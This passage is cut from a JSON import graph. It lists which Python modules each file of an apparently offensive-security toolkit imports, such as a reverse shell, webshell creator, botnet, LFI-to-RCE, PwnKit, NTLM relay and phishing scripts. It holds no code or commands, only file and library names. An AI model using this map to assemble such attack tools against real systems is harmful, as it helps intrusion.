"ctypes"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": "win32api"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": "win32com.client"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazybotnet.py", "target": "win32con"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazycam.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazycam.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazycam.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazycam.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazycam.py", "target": "PIL"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazycam.py", "target": "portscan"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazycam.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazycreate_webshell.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazycreate_webshell.py", "target": "lazyencoder_decoder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazydeepseekcli.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazydeepseekcli.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazydeepseekcli.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazydeepseekcli.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazydeepseekcli.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazydeepseekcli.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazydeepseekcli.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazydeepseekcli.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazydisassebler.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazydisassebler.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyftpsniff.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyftpsniff.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyftpsniff.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyftpsniff.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyftpsniff.py", "target": "scapy.all"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygalazy.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygalazy.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygalazy.py", "target": "string"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygalazy.py", "target": "http.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli.py", "target": "groq"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli.py", "target": "modules.colors"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli.py", "target": "modules.legacy.lazygptcli_unified"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli.py", "target": "modules.legacy.lazygptcli_unified"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli_unified.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli_unified.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli_unified.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli_unified.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli_unified.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli_unified.py", "target": "groq"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli_unified.py", "target": "modules.colors"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazygptcli_unified.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhoneypot.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhoneypot.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhoneypot.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhoneypot.py", "target": "smtplib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhoneypot.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhoneypot.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhoneypot.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhoneypot.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhoneypot.py", "target": "email.mime.text"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhoneypot.py", "target": "paramiko"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhoneypot.py", "target": "scapy.all"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhoneypot.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhttpreverseshell.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhttpreverseshell.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhttpreverseshell.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhttpreverseshell.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhttpreverseshell.py", "target": "zlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhttpreverseshell.py", "target": "http.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhttpreverseshell.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyhttpreverseshell.py", "target": "cryptography.fernet"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazykeygen.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazykeygen.py", "target": "binascii"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazykeygen.py", "target": "Crypto.Cipher"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazykeygen.py", "target": "Crypto.Random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazylfi2rce.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazylfi2rce.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazylfi2rce.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazylfi2rce.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazylfi2rce.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazylfi2rce.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyllmchat.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyllmchat.py", "target": "importlib.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyllmchat.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyllmchat.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyllmchat.py", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyllmchat.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyllmchat.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyllmchat.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyllmchat.py", "target": "ai_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyllmchat.py", "target": "llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyllmchat.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyllmchat.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyllmchat.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyllmchat.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazylogpoisoning.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazylogpoisoning.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazylogpoisoning.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazylogpoisoning.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazylogpoisoning.py", "target": "lazyencoder_decoder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazylogpoisoning.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymariadb_rce_cve_2016-662.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymariadb_rce_cve_2016-662.py", "target": "binascii"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymariadb_rce_cve_2016-662.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymariadb_rce_cve_2016-662.py", "target": "mysql.connector"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymidm.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymidm.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymidm.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymidm.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymidm.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymidm.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymidm.py", "target": "scapy.all"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymidm.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymitmap.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymitmap.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymitmap.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymitmap.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymitmap.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymitmap.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazymitmap.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazynetbios.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazynetbios.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazynetbios.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazynetbios.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazynetbios.py", "target": "impacket.nmb"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazynetbios.py", "target": "scapy.all"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazynetbios.py", "target": "scapy.layers.netbios"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyntlrelayx.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyntlrelayx.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyopenssh77enum2.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyopenssh77enum2.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyopenssh77enum2.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyopenssh77enum2.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyopenssh77enum2.py", "target": "paramiko"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyphishingai.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyphishingai.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyphishingai.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyphishingai.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyphishingai.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyphishingai.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyphishingai.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyproxy.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyproxy.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyproxy.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyproxy.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyproxy.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyproxy.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyproxy.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyproxy.py", "target": "keyboard"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyproxy.py", "target": "colors"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazypwn.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazypwn.py", "target": "pwn"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazypwnkit.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazypwnkit.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazypwnkit.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazypwnkit.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazypyautogui.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazypyautogui.py", "target": "pyautogui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyreversentlmv2.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyreversentlmv2.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyreversentlmv2.py", "target": "lazyencoder_decoder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyreversentlmv2.py", "target": "impacket.smbconnection"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysearch.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysearch.py", "target": "pandas"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysearch.py", "target": "colorama"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysearch.py", "target": "tabulate"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysearch_bot.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysearch_bot.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysearch_bot.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysearch_bot.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysearch_bot.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysearch_bot.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysearch_bot.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysearch_bot.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysearch_bot.py", "target": "groq"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyseo.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyseo.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyseo.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyseo.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyseo.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyseo.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyseo.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyseo.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyseo.py", "target": "bs4"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyseo.py", "target": "colors"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysmbrelay.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysmbrelay.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysmbrelay.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysmbrelay.py", "target": "impacket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysmbrelay.py", "target": "impacket.examples.ntlmrelayx.servers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysmbrelay.py", "target": "impacket.examples.ntlmrelayx.utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysmbrelay.py", "target": "impacket.examples.ntlmrelayx.utils.targetsutils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysmbrelay.py", "target": "impacket.smbconnection"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysniff.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysniff.py", "target": "curses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysniff.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysniff.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysniff.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysniff.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysniff.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysniff.py", "target": "scapy.all"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysqli.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysqli.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysqli.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysqli.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazysqli.py", "target": "concurrent.futures"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyssh.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyssh.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyssh.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyssh.py", "target": "paramiko"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyvsftp.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyvsftp.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazyvsftp.py", "target": "pwn"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazywerkzeug.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazywerkzeug.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/lazywerkzeug.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/sql.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/sql.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/sql.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "contrib/legacy/sql.py", "target": "pwn"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/__init__.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/__init__.py", "target": "core.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/__init__.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/__init__.py", "target": "core.dependencies"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/__init__.py", "target": "core.errors"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/__init__.py", "target": "core.http"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/__init__.py", "target": "core.network"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/__init__.py", "target": "core.parsers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/__init__.py", "target": "core.payload_schema"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/__init__.py", "target": "core.process"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/__init__.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/api_authz.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/api_authz.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/api_authz.py", "target": "hmac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/api_authz.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/api_authz.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/api_authz.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/api_authz.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/api_authz.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/api_authz.py", "target": "functools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/api_authz.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/api_authz.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/api_authz.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/api_authz.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/autonomous.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/autonomous.py", "target": "builtins"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/autonomous.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/autonomous.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/autonomous.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/command_bridge.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/command_bridge.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/command_bridge.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/command_bridge.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/command_bridge.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/command_bridge.py", "target": "lazyown"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/config.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/config.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/config.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/config.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/config.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/config.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/config.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/config.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/config.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/config.py", "target": "core.payload_schema"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/config.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/console.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/console.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/console.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/credential_vault.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/credential_vault.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/credential_vault.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/credential_vault.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/credential_vault.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/credential_vault.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/credential_vault.py", "target": "core.crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/credential_vault.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/credential_vault.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/crypto.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/crypto.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "core/crypto.py", "target": "os"}, {"confidence": 